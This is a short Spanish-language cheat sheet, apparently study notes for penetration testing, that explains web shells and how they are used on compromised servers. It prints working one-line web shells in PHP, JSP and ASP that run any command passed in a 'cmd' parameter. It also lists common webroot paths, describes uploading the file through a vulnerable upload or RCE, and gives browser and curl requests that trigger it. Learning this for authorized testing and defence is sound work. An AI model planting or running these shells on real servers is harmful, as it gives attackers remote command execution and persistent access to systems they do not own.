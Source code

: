 # 🌐 Web Shells – Resumen

Un **Web Shell** es un script web (PHP, ASPX, JSP…) que recibe comandos vía HTTP y devuelve su salida.
Se usa para ejecutar comandos en un servidor comprometido a través del puerto web (80/443).

## 📌 Características
- Persiste tras reinicio si el archivo sigue en el webroot.
- Evita problemas de firewall (usa el puerto web).
- Menos interactivo que reverse/bind shells.
- Puede automatizarse para obtener una shell semi-interactiva.

## 🔹 Código mínimo
- **PHP:**
```php
<?php system($_REQUEST["cmd"]); ?>
```
- **JSP:**
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
- **ASP:**
```asp
<% eval request("cmd") %>
```

## 🔹 Webroots comunes
| Servidor | Webroot |
|----------|---------|
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | C:\inetpub\wwwroot\ |
| XAMPP | C:\xampp\htdocs\ |

## 🔹 Subida y uso
1. **Subir el archivo** (upload vulnerable o RCE).
2. **Acceder al archivo** en el navegador:
```
http://SERVER_IP:PORT/shell.php?cmd=id
```
3. **Con cURL:**
```bash
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

## 📎 Tip
El repo [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) tiene más ejemplos y variantes.
